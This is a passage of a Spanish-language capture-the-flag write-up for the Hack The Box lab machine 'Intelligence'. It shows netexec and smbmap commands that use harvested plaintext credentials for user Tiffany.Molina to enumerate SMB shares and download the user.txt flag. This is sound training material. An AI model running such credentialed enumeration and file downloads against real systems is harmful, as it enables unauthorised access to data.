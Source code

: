 ## SMB Enumeration

Procederemos a enumerar el SMB con las nuevas credenciales obtenidas y ver a qué recursos tiene acceso dicho usuario. Comprobamos que dispone de acceso al recurso "Users".

{% code overflow="wrap" %}
```bash
netexec smb 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --shares
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1033_vmware_xRUGphhXaH.png" alt=""><figcaption></figcaption></figure>

Con la herramienta de **smbmap** procederemos a comprobar el directorio de (Users/Tiffany.Molin/Desktop) y vemos que encontramos la flag de **user.txt**, la descargaremos con **smbmap** mismo.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">smbmap -H 10.10.10.248 --no-banner -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r Users/Tiffany.Molina/Desktop
<strong>
</strong><strong>smbmap -H 10.10.10.248 --no-banner -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --download Users/Tiffany.Molina/Desktop/user.txt
</strong><strong>
</strong><strong>mv 10.10.10.248-Users_Tiffany.Molina_Desktop_user.txt user.txt
</strong>
catnp user.txt
</code></pre>

<figure><img src="../../../.gitbook/assets/1038_vmware_iIXV2tTnd6.png" alt="" width="563"><figcaption></figcaption></figure>

